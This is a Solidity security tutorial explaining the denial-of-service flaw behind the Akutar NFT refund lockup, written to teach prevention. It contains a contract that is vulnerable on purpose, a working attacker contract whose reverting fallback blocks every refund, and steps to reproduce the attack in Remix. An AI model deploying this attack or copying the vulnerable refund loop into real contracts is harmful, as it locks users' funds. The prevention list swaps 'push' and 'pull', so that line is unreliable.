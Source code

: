 ```yaml
---
title: S09. Denial of Service (DoS)
tags:
    - solidity
    - security
    - fallback
---
```


# WTF Solidity S09. Denial of Service (DoS)

Recently, I have been revisiting Solidity, consolidating the finer details, and writing "WTF Solidity" tutorials for newbies. 

Twitter: [@0xAA_Science](https://twitter.com/0xAA_Science) | [@WTFAcademy_](https://twitter.com/WTFAcademy_)

Community: [Discord](https://discord.gg/5akcruXrsk)｜[Wechat](https://docs.google.com/forms/d/e/1FAIpQLSe4KGT8Sh6sJ7hedQRuIYirOoZK_85miz3dw7vA1-YjodgJ-A/viewform?usp=sf_link)｜[Website wtf.academy](https://wtf.academy)

Codes and tutorials are open source on GitHub: [github.com/AmazingAng/WTF-Solidity](https://github.com/AmazingAng/WTF-Solidity)

English translations by: [@to_22X](https://twitter.com/to_22X)

---

In this lesson, we will introduce the Denial of Service (DoS) vulnerability in smart contracts and discuss methods for prevention. The NFT project Akutar once suffered a loss of 11,539 ETH, worth $34 million at the time, due to a DoS vulnerability.

## DoS

In Web2, a Denial of Service (DoS) attack refers to the phenomenon of overwhelming a server with a large amount of junk or disruptive information, rendering it unable to serve legitimate users. In Web3, it refers to exploiting vulnerabilities that prevent a smart contract from functioning properly.

In April 2022, a popular NFT project called Akutar raised 11,539.5 ETH through a Dutch auction for its public launch, achieving great success. Participants who held their community Pass were supposed to receive a refund of 0.5 ETH. However, when they attempted to process the refunds, they discovered that the smart contract was unable to function correctly, resulting in all funds being permanently locked in the contract. Their smart contract had a DoS vulnerability.

![](./img/S09-1.png)

## Vulnerability Example

Now let's study a simplified version of the Akutar contract called `DoSGame`. This contract has a simple logic: when the game starts, players call the `deposit()` function to deposit funds into the contract, and the contract records the addresses of all players and their corresponding deposits. When the game ends, the `refund()` function is called to refund ETH to all players in sequence.

```solidity
// SPDX-License-Identifier: MIT
// english translation by 22X
pragma solidity ^0.8.4;

// Game with DoS vulnerability, players deposit money and call refund to withdraw it after the game ends.
contract DoSGame {
    bool public refundFinished;
    mapping(address => uint256) public balanceOf;
    address[] public players;
    
    // All players deposit ETH into the contract
    function deposit() external payable {
        require(!refundFinished, "Game Over");
        require(msg.value > 0, "Please donate ETH");
        // Record the deposit
        balanceOf[msg.sender] = msg.value;
        // Record the player's address
        players.push(msg.sender);
    }

    // Game ends, refund starts, all players receive refunds one by one
    function refund() external {
        require(!refundFinished, "Game Over");
        uint256 pLength = players.length;
        // Loop through all players to refund them
        for(uint256 i; i < pLength; i++){
            address player = players[i];
            uint256 refundETH = balanceOf[player];
            (bool success, ) = player.call{value: refundETH}("");
            require(success, "Refund Fail!");
            balanceOf[player] = 0;
        }
        refundFinished = true;
    }

    function balance() external view returns(uint256){
        return address(this).balance;
    }
}
```

The vulnerability here lies in the `refund()` function, where a loop is used to refund the players using the `call` function, which triggers the fallback function of the target address. If the target address is a malicious contract and contains malicious logic in its fallback function, the refund process will not be executed properly.

```
(bool success, ) = player.call{value: refundETH}("");
```

Below, we write an attack contract where the `attack()` function calls the `deposit()` function of the `DoSGame` contract to deposit funds and participate in the game. The `fallback()` fallback function reverts all transactions sending ETH to this contract, attacking the DoS vulnerability in the `DoSGame` contract. As a result, all refunds cannot be executed properly, and the funds are locked in the contract, just like the over 11,000 ETH in the Akutar contract.

```solidity
contract Attack {
    // DoS attack during refund
    fallback() external payable{
        revert("DoS Attack!");
    }

    // Participate in the DoS game and deposit
    function attack(address gameAddr) external payable {
        DoSGame dos = DoSGame(gameAddr);
        dos.deposit{value: msg.value}();
    }
}
```

## Reproduce on `Remix`

**1.** Deploy the `DoSGame` contract.
**2.** Call the `deposit()` function of the `DoSGame` contract to make a deposit and participate in the game.
![](./img/S09-2.png)
**3.** At this point, if the game is over and `refund()` is called, the refund will be executed successfully.
![](./img/S09-3.jpg)
**3.** Redeploy the `DoSGame` contract and deploy the `Attack` contract.
**4.** Call the `attack()` function of the `Attack` contract to make a deposit and participate in the game.
![](./img/S09-4.jpg)
**5.** Call the `refund()` function of the `DoSGame` contract to initiate a refund, but it fails to execute properly, indicating a successful attack.
![](./img/S09-5.jpg)

## How to Prevent

Many logic errors can lead to denial of service in smart contracts, so developers need to be extremely cautious when writing smart contracts. Here are some areas that require special attention:

1. Failure of external contract function calls (e.g., `call`) should not result in the blocking of important functionality. For example, removing the `require(success, "Refund Fail!");` statement in the vulnerable contract allows the refund process to continue even if a single address fails.
2. Contracts should not unexpectedly self-destruct.
3. Contracts should not enter infinite loops.
4. Parameters for `require` and `assert` should be set correctly.
5. When refunding, allow users to claim funds from the contract (push) instead of sending funds to users in batch (pull).
6. Ensure that callback functions do not interfere with the normal operation of the contract.
7. Ensure that the main business of the contract can still function properly even when participants (e.g., `owner`) are absent.

## Summary

In this lesson, we introduced the denial of service vulnerability in smart contracts, which caused the Akutar project to lose over 10,000 ETH. Many logic errors can lead to DoS attacks, so developers need to be extremely cautious when writing smart contracts. For example, refunds should be claimed by users individually instead of being sent in batch by the contract.
